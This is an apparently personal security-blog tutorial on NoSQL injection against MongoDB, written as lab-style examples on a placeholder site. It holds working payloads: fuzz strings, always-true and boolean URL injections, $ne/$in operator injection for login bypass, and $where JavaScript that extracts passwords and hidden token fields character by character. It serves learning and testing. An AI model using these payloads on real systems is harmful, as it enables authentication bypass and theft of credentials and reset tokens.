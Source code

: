 ```yaml
---
title: NoSQL Injection Techniques and Exploits
date: 2024-12-20
categories: [Security, Writeups]
tags: [nosql, injection, mongodb, security, web, fuzzing, exploitation]
author: spideyy
comments: true
description: Exploring NoSQL injection techniques, including syntax injection and operator abuse , A complete Guide For Beginner and a Refresher 
---
```


### Types
- syntax injection
- operator injection
### NoSQL Syntax Injection

- **Definition:** Similar to SQL injection,  involves breaking the query syntax and exploiting vulnerabilities.

#### Detecting Syntax Injection in MongoDB

1. Test each input by submitting fuzz strings and special characters.

#### Fuzz Strings

```
'"`{ ;$Foo} $Foo \xYZ '%00
```

```
' " \ ; { } ( )
```

#### Testing

**Example:**

`https://insecure-website.com/product/lookup?category=fizzy`

- The server handles the query as:
    
    ```javascript
    this.category == 'fizzy'
    ```
    
- Fuzz the input using the _fuzz strings_ and analyze the response.
    
- Determine which characters (e.g., single or double quotes) impact the query.
    

**Examples:**

```javascript
this.category == '''
this.category == '\''
```

#### Boolean Influence Testing

**False Output:**

```
https://insecure-website.com/product/lookup?category=fizzy'+&&+0+&&+'x
```

- No categories are displayed since the query evaluates to false.

**True Output:**

```
https://insecure-website.com/product/lookup?category=fizzy'+&&+1+&&+'x
```

- The `fizzy` category is displayed, indicating boolean influence.

#### Overriding Existing Conditions

- Use the `||` (OR) operator to override conditions, ensuring the query always returns true:

```
https://insecure-website.com/product/lookup?category=fizzy'||'1'=='1
```

- Server query becomes:

```javascript
this.category == 'fizzy'||'1'=='1'
```

- All categories are displayed.

#### Null Character Injection

- MongoDB may ignore all characters after a null character (`\u0000`).

**Example:**

If the server query is:

```javascript
this.category == 'fizzy' && this.released == 1
```

After injecting a null character:

```javascript
this.category == 'fizzy'\u0000' && this.released == 1
```

- Unreleased objects may be displayed.

---

### Operator Injection

- **Definition:** Abusing NoSQL operators like `$where`, `$ne`, `$in`, and `$regex` to exploit vulnerabilities.

#### Injecting into Query Operators

1. **Example Query:**

```json
{"username":"wiener"}
```

- Queries for username = `wiener`.

**Injection Example:**

```json
{"username":{"$ne":"invalid"}}
```

- Query becomes `username != invalid`, which returns all usernames except `invalid`.

2. Transforming input:

```
username=wiener becomes username[$ne]=invalid
```

3. Complex Query Example:

```json
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

- Fetches data if the username is one of `admin`, `administrator`, or `superadmin`, and the password is not empty.

#### Steps to Test:

1. Convert the request method from `GET` to `POST`.
2. Change the `Content-Type` header to `application/json`.
3. Add JSON to the message body.
4. Inject query operators into the JSON.

---

### Exfiltrating Data in MongoDB

**Example:**

```
https://insecure-website.com/user/lookup?username=admin
```

Server query:

```json
{"$where":"this.username == 'admin'"}
```

#### Payload Examples:

1. To check if the first character of the password is `a`:

```
admin' && this.password[0] == 'a' || 'a'=='b
```

2. To check if the password contains digits:

```
admin' && this.password.match(/\d/) || 'a'=='b
```

3. To find the password length using binary search:

```
administrator' && this.password.length < 30 || 'a'=='b
```

---

### Extracting Field Names, Lengths, and Values

**Example Query:**

```javascript
db.user.findOne(userInfo)

let userInfo = {
    "_id": "skjfskmjfsdf",
    "username": "carlos",
    "password": {
        "$ne": ""
    },
    "$where": "function(){ return 0;}"
}
```

#### Steps to Extract Information:

1. Check error messages:
    
    - **1:** Account Locked
    - **0:** Invalid
2. Find hidden field names and their lengths:
    

**Example Payloads:**

- Find hidden field name:

```javascript
"$where": "function(){ if(Object.keys(this)[0].match('_id')) return 1; else 0; }"
```

- Find hidden field name length:

```javascript
"$where": "function(){ if(Object.keys(this)[3].length == 1) return 1; else 0; }"
```

- Hidden field name `unlockToken`:

```javascript
"$where": "function(){ if(this.unlockToken.length == 1) return 1; else 0; }"
```

3. Determine value length and content:

- Length is 16:

```javascript
"$where": "function(){ if(this.unlockToken.length == 16) return 1; else 0; }"
```

- Check if value starts with `a`:

```javascript
"$where": "function(){ if(this.unlockToken.match(/^a/)) return 1; else 0; }"
```

- Check if value contains digits:

```javascript
"$where": "function(){ if(this.unlockToken.match(/\\d/)) return 1; else 0; }"
```

---